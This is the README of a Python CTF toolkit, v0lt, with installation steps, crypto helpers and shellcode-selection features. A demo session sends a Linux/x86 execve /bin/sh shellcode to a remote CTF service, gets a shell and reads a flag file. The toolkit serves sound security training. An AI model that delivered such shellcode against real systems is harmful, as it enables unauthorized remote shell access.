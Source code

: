![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Installation
```Bash
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
sudo python3 setup.py install # sudo is required for potentially missing dependencies    
```

##Demo: Shellcodes
```Python
>>> from v0lt import shellcode
>>> from v0lt.netcat import Netcat
>>> nc = Netcat("remote.ctf.com", 4444)
Port 4444: GIVE ME SHELLCODZ
>>> shell_code = shellcode.get_shellcodes("bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
You chosed http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"
>>> nc.write(shell_code)
$ ls
README.md  commit.sh  setup.py  v0lt  flag.txt
$ cat flag.txt
myCTF{3d1DD1C223DcfddDAe1D0faaD1BEEADdaabB2Ea0DeB023aCdebbABCCB01ccacf}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (Xor)    
    * Usual conversions (bytes/strings/hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection    
    * Shellcode format from Shell-storm repo    

* Easy connection support    
    * Netcat    
    * Telnet    

And more !